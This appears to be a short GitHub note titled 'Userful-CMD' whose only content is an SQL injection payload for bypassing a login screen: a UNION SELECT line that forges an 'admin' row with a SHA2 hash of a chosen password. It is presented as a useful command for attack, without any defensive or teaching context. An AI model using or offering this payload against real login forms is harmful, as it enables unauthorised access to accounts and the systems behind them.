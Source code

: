 # Userful-CMD

Bypass a login screen were username field has potential SQL injection:
' UNION SELECT 1, 'admin', SHA2('bypass', 256)-- -
